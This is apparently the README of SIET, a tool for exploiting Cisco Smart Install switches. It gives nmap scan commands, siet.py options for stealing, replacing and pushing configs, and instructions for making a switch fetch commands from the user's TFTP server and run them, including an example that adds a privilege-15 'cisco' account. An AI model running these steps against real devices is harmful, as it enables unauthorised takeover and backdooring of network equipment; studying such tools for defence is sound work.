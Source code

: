 # SIET - Smart Install Exploitation Tool

Cisco Smart Install is a plug-and-play configuration and image-management feature that provides zero-touch deployment for new switches. You can ship a switch to a location, place it in the network and power it on with no configuration required on the device.

You can easy identify it using nmap cisco-siet.nse script. Just download it and run it: 
```	
nmap -p 4786 -v 192.168.0.1	# By default, it will just test whether host is vulnerable or not
$ nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse
# You can pass argument to get config
# Note: you need to run it as root
# If you are attacking public ip, make sure to provide your public ip to the script (cisco-siet.addr=<PUBLIC_IP>)
$ sudo nmap -p 4786 -v 192.168.0.1 --script ./cisco-siet.nse \
> --script-args "cisco-siet.get"
```

This protocol has a few security issues and this simple tool helps you to use all of them.:

1. Change tftp-server address on client device by sending one malformed TCP packet.
2. Copy client's `startup-config` on tftp-server exchanged previously.
3. Substitute client's `startup-config` for the file which has been copied and edited. Device will reboot in defined time.
4. Upgrade ios image on the "client" device.
5. Execute random set of commands on the "client" device. IS a new feature working only at `3.6.0E` and `15.2(2)E` ios versions. 


All of them are caused by the lack of any authentication in smart install protocol. Any device can act as a director and send malformed tcp packet. It works on any "client" device where smart install is enabled. It does not matter if it used smart install in the network or not.

**Confim** from vendor: 

- https://tools.cisco.com/security/center/content/CiscoSecurityResponse/cisco-sr-20170214-smi
- https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20160323-smi

**Slides**: https://2016.zeronights.ru/wp-content/uploads/2016/12/CiscoSmartInstall.v3.pdf

# USAGE

You can use it for password recovery of for unlock cisco switch when no password provided.

Example to get config:

```
sudo python siet.py -g -i 192.168.0.1
```

Options:

- `-t`  test device for smart install
- `-g`  get device config
- `-c`  change device config
- `-C`  change multiple device configs
- `-u`  update device IOS
- `-e`  execute commands in device's console
- `-i` ip address of target device
- `-l` ip list of targets (file path)
- `--thread-count` number of threads to be spawned

## How to use `-e` option
1. You have to create directory `tftp` (near siet.py) and file inside it `tftp/execute.txt`
2. File should contains commands for cisco switch, each command in quotes, separate by space. Example: `"username cisco privilege 15 secret 0 cisco" "exit"`
3. Then you run `siet.py` with IP address of device.
4. `siet.py` starts tftp server (69 port UDP) on your IP.
5. `siet.py` send command to switch to force download that file and execute it.  
    **Note: device need to have route to your IP. If you run it again device in Internet, you must run it from external IP**
6. Device go to you TFTP server, download and execute commands from file (no reboot is necessary)

# UPDATES

New option `-C`. You can place configs into the `tftp/conf` directory following the 
naming convention of `ip.conf`, ie: `192.168.10.1.conf`. A target ip list `-l` must be used
in conjunction with this option, the name of the conf corresponds to it's target destination.

New option `-l`. You can use list of ip addresses for getting configuration file.

Fix bug with incorrect test of device.

If you are thinking about what to do with the copied configuration files, you can try our new tool: [Cisco Config Analysis Tool](https://github.com/cisco-config-analysis-tool/ccat)

If you have any questions, please write me at telegram: @sab0tag3d
